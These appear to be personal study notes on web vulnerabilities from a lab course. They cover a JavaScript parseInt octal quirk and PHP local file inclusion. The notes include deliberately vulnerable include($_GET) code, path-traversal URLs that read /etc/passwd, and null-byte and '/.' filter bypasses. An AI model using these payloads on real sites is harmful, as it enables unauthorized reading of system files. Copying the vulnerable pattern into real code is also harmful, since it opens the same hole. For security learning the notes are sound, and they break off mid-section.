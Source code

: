 ===============================================================================
# Web vuln
```
parseInt	# if using different radix (bases) in different lines, 
		# it treats strings that start with 0 as an octa
console.log(parseInt('01000')); //	# returns 512
console.log(parseInt('01000', 10)); //	# return 1000




```
===============================================================================
# File Inclusion 
```

------------------------------------------------------------------
Local file inclusion (LFI):

http://webapp.thm/get.php?file=userCV.pdf
protocol://domain_name/file_name(? == query string begin)parameter=required_file_to_access

- Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP.
- With PHP, using functions such as include, require, include_once, and require_once
- include function allows us to include any called files into the current page

Example 1:
<?PHP 
	include($_GET["lang"]);		# the lang parameter calls to EN.php or AR.php from user input for choosing language 
?>
http://webapp.thm/index.php?lang=EN.php
http://webapp.thm/index.php?lang=AR.php

Example 2:
<?PHP 
	include("languages/". $_GET['lang']);		# the lang parameter calls to the php files in the /language dir
?>
http://webapp.thm/index.php?lang=../../../../etc/passwd
Warning: include(includes/jlkl)	.....			# if you see an error related to "include", this would be a chance to exploit it

---
NULL BYTE (%00 or 0x00 in hex)				#  trick the web app into disregarding whatever comes after the Null Byte
example:
developer specifies the file extension of input to be .php, so if we request /etc/passwd, we get warning: include(languages/THM.php);
bypass:
http://webapp.thm/index.php?lang=../../../../etc/passwd%00

---
Current directory trick:
to bypass the keyword filter use %00 or /. at the end of the filtered keyword
../../../../etc/passwd/.				# in this case the keyword /etc/passwd is filtered

---
empty strings:
```